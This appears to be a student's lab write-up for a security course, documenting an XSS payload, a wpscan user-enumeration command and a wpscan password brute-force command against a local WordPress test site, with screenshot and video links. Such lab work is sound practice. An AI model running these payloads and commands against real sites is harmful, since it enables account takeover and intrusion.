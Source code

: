# Alexandro Galvez-Vega


# Vulnerabilities
## 1. XSS
## <xss onafterscriptexecute=alert(1)><script>1</script>
<br>
<img src="https://raw.githubusercontent.com/agalvezv/Week78Assignment/main/XSS%20Example.jpg" alt="XSS">

<br>
<br>

# Vulnerabilities
## 2. User enumeration
## wpscan –url http://127.0.0.1:8080/ –enumerate u
<br>
<img src="https://raw.githubusercontent.com/agalvezv/Week78Assignment/main/User%20Enumeration%20Example.jpg" alt="UE">

<br>
<br>

# Vulnerabilities
## 3. Password Bruteforce
## wpscan --url http://127.0.0.1:8080/ --passwords rockyou.txt
<br>
<img src="https://raw.githubusercontent.com/agalvezv/Week78Assignment/main/Enumeration%20and%20Bruteforce.jpg" alt="PB">

<br>
<br>

## Video: https://www.youtube.com/watch?v=9XydAX0R268

